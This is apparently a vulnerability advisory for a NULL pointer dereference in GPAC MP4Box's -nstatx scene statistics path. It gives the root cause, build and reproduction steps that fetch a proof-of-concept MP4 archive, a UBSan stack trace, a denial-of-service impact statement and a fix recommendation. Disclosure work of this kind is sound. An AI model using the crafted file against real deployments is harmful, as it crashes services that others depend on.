


# Vuln: GPAC MP4Box NULL Pointer Dereference in gf_node_set_cyclic_traverse_flag

**Project:** gpac/gpac (https://github.com/gpac/gpac)  
**Version:** Vulnerable at commit `f1219cde` (master, 2026-07-25), fixed after issue closure (2026-07-28)  
**Date:** 2026-07-27  
**Severity:** MEDIUM  
**CWE:** CWE-476 - NULL Pointer Dereference  

---

## Affected File

```text
scenegraph/base_scenegraph.c:1202 (gf_node_set_cyclic_traverse_flag)
scene_manager/scene_stats.c:394 (StatNodeGraph)
applications/mp4box/filedump.c:463 (trigger path via -nstatx)
```

## Root Cause

GPAC does not validate node pointers during recursive scene graph traversal. When MP4Box processes a crafted MP4 file with `-nstatx`, the recursive `StatNodeGraph` function encounters an invalid node and passes a NULL pointer to `gf_node_set_cyclic_traverse_flag`, which attempts member access on the NULL pointer, triggering undefined behavior detected by UBSan.

## Steps to Reproduce

```bash
git clone https://github.com/gpac/gpac.git gpac-vuln
cd gpac-vuln
git checkout f1219cde

sudo apt install -y zlib1g-dev build-essential

./configure --enable-sanitizer
make -j"$(nproc)"

curl -L -o poc_36_nstatx.zip \
  https://github.com/user-attachments/files/30401244/poc_36_nstatx.zip
python3 -c "import zipfile; zipfile.ZipFile('poc_36_nstatx.zip').extractall('.')"

export UBSAN_OPTIONS=print_stacktrace=1:halt_on_error=1
./bin/gcc/MP4Box -nstatx poc_36_nstatx
```

Expected result on the vulnerable commit:

```text
scenegraph/base_scenegraph.c:1202:25: runtime error: member access within null pointer of type 'struct _nodepriv'
    #0 0x7336d15e8bbc in gf_node_set_cyclic_traverse_flag scenegraph/base_scenegraph.c:1202
    #1 0x7336d1ff90f2 in StatNodeGraph scene_manager/scene_stats.c:394
    #2 0x7336d1ffa580 in StatNodeGraph scene_manager/scene_stats.c:450
    #3 0x7336d1ffa50b in StatNodeGraph scene_manager/scene_stats.c:455
    #4 0x7336d1ffa50b in StatNodeGraph scene_manager/scene_stats.c:455
    #5 0x7336d1ffa50b in StatNodeGraph scene_manager/scene_stats.c:455
    #6 0x5c35bbe97eb8 in dump_isom_scene_stats /home/ricky_1208/gpac_env/gpac-src/applications/mp4box/filedump.c:463
    #7 0x5c35bbe84325 in mp4box_main /home/ricky_1208/gpac_env/gpac-src/applications/mp4box/mp4box.c:6667
    #8 0x7336cee2a1c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #9 0x7336cee2a28a in __libc_start_main_impl ../csu/libc-start.c:360
    #10 0x5c35bbe5a354 in _start (/home/ricky_1208/gpac_env/bin_asan/MP4Box+0xb0354)
```



The public issue for this bug is:

- https://github.com/gpac/gpac/issues/3818



## Impact

A crafted MP4 file can trigger a NULL pointer dereference in MP4Box when using the `-nstatx` option, causing a process crash and resulting in denial of service.

## Recommended Fix

Apply the upstream fix that validates node pointers for NULL before calling `gf_node_set_cyclic_traverse_flag` during scene graph traversal.

---

## References

- GPAC issue #3818: https://github.com/gpac/gpac/issues/3818
